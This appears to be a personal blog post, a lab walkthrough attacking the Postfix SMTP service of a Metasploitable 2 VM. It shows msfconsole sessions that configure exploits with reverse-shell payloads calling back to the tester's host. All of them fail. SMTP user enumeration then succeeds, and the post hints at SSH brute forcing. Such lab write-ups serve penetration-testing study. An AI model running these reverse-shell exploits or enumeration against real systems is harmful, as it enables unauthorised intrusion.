 <!--hacking, metasploit, smtp-->
# Third post is a charm

For this post I will target the SMTP server running on the Metasploitable 2 VM I have set up as my target. By now my approach
should be clear:

1. Identify target
2. Find vulnerability
3. Craft exploit
4. ???
5. Profit!

Let's see if I can apply the same tactic again!

## The target and vulnerability

This time I am going to target the SMTP server running on the target (IP 192.168.56.103) :

    25/tcp    open  smtp        Postfix smtpd
    
Now I want to find a vulnerability for this service. I don't have version number so first I am going to attempt to 
find out some more information about the service. A regular banner grabbing with `nc` can reveal a lot of information. There is 
a metasploit module for SMTP banner grabbing as well `auxiliary/scanner/smtp/smtp_version` but `msfconsole` is slow to load
so I rather do it with `nc`:
    
    # nc 192.168.56.103 25
    220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
    
That doesn't really tell me anything I didn't already know. As a side note, this technique (or similar) also works for other protocols
for example FTP, SSH and HTTP. So the next step is to fire up `msfconsole` and do a search:

    msf > search smtp postfix

    Matching Modules
    ================

     Name                                        Disclosure Date  Description
     ----                                        ---------------  -----------
     auxiliary/client/smtp/emailer                                Generic Emailer (SMTP)
     auxiliary/dos/smtp/sendmail_prescan         2003-09-17       Sendmail SMTP Address prescan Memory Corruption
     auxiliary/fuzzers/smtp/smtp_fuzzer                           SMTP Simple Fuzzer
     auxiliary/scanner/smtp/smtp_enum                             SMTP User Enumeration Utility
     auxiliary/scanner/smtp/smtp_relay                            SMTP Open Relay Detection
     auxiliary/scanner/smtp/smtp_version                          SMTP Banner Grabber
     auxiliary/server/capture/smtp                                Authentication Capture: SMTP
     auxiliary/vsploit/pii/email_pii                              VSploit Email PII
     exploit/linux/misc/gld_postfix              2005-04-12       GLD (Greylisting Daemon) Postfix Buffer Overflow
     exploit/linux/smtp/exim4_dovecot_exec       2013-05-03       Exim and Dovecot Insecure Configuration Command Injection
     exploit/unix/smtp/clamav_milter_blackhole   2007-08-24       ClamAV Milter Blackhole-Mode Remote Code Execution
     exploit/unix/smtp/exim4_string_format       2010-12-07       Exim4 string_format Function Heap Buffer Overflow
     exploit/unix/webapp/squirrelmail_pgp_plugin 2007-07-09       SquirrelMail PGP Plugin Command Execution (SMTP)

In this output I have removed everything that is windows related and instead of removing the disclosure date I removed the ranking. Since
the disclosure date will play a role later on.

For let's focus on the exploits for now. How can I figure out if an exploit is applicable to the running server without trying everything?
Well the is where the disclosure date comes in handy. But first, one interesting question is if we can apply a UNIX exploit to a Linux 
system. The answer is: it depends. You might be able to use a UNIX exploit or cmd on a Linux target, the only way to find out is to
try or read the source for the exploit. Now back to the dates, from a previous `nmap` scan we know that a bit about the OS:

    Running: Linux 2.6.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6
    OS details: Linux 2.6.9 - 2.6.33
    
Linux 2.6.33 was released 24 February 2010, so by this date we can begin our search. 
A single exploit was released that year so let's try that:

    msf  > use exploit/unix/smtp/exim4_string_format
    msf exploit(exim4_string_format) > set RHOST 192.168.56.103 
    RHOST => 192.168.56.103
    msf exploit(exim4_string_format) > set payload cmd/unix/reverse_ruby
    payload => cmd/unix/reverse_ruby
    msf exploit(exim4_string_format) > set LHOST 192.168.56.102 
    LHOST => 192.168.56.102
    msf exploit(exim4_string_format) > exploit

    [*] Started reverse handler on 192.168.56.102:4444 
    [*] Connecting to 192.168.56.103:25 ...
    [*] Server: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
    [-] Exploit failed [no-target]: The target server is not running Exim!
    
So the target is not running Exim. This means that I can remove two exploits from the list, I can also remove the web app exploit 
(unrelated to Exim) so the remaining exploits are:
    
* `exploit/linux/misc/gld_postfix`
* `exploit/unix/smtp/clamav_milter_blackhole`

Let's try both:

    msf > use exploit/linux/misc/gld_postfix
    msf exploit(gld_postfix) > set RHOST 192.168.56.103
    RHOST => 192.168.56.103
    msf exploit(gld_postfix) > set RPORT 25
    RPORT => 25
    msf exploit(gld_postfix) > set payload linux/x86/shell/reverse_tcp 
    payload => linux/x86/shell/reverse_tcp     
    msf exploit(gld_postfix) > set LHOST 192.168.56.102 
    LHOST => 192.168.56.102
    msf exploit(gld_postfix) > exploit
    
    [*] Started reverse handler on 192.168.56.102:4444 

And nothing else happens, this is usually a sign that the exploit doesn't work. Specifically when no payload produces a different result.
So I move to the last exploit:

    msf > use exploit/unix/smtp/clamav_milter_blackhole
    msf exploit(clamav_milter_blackhole) > set RHOST 192.168.56.103 
    RHOST => 192.168.56.103
    msf exploit(clamav_milter_blackhole) > set payload cmd/unix/reverse_ruby
    payload => cmd/unix/reverse_ruby
    msf exploit(clamav_milter_blackhole) > set LHOST 192.168.56.102 
    LHOST => 192.168.56.102
    msf exploit(clamav_milter_blackhole) > exploit

    [*] Started reverse handler on 192.168.56.102:4444 

The same result, also the same for each payload. So I can conclude that the service is not vulnerable to any of the exploits in metasploit.

## What else?

This attack seems to have failed so let's see what else I can do. Referring back to the list of available metasploit modules I see a module
for user enumeration. It's always good to get users so let's do that.

    msf > use auxiliary/scanner/smtp/smtp_enum 
    msf auxiliary(smtp_enum) > show options 

    Module options (auxiliary/scanner/smtp/smtp_enum):

       Name       Current Setting      Required  Description
       ----       ---------------      --------  -----------
       RHOSTS                          yes       The target address range or CIDR identifier
       RPORT      25                   yes       The target port
       THREADS    1                    yes       The number of concurrent threads
       UNIXONLY   true                 yes       Skip Microsoft bannered servers when testing unix users
       USER_FILE  *snip*               yes       The file that contains a list of probable users accounts.

The USER_FILE variable is set to: `/usr/share/metasploit-framework/data/wordlists/unix_users.txt`, I removed it from the above output 
since it looks horrible when it wraps on the blog. Now I set the required parameters and run it:

    msf auxiliary(smtp_enum) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(smtp_enum) > run

    [*] 192.168.56.103:25 Banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
    [+] 192.168.56.103:25 Users found: backup, bin, daemon,  distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, 
        man, news, nobody, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

I get 26 hits, the wordlist I used has:

    # cat /usr/share/metasploit-framework/data/wordlists/unix_users.txt | wc -l
    110

110 lines, so I can assume it works. So now that I have a set of users I can something devious with that information. 
Maybe brute force SSH or something like that, *wink wink*.
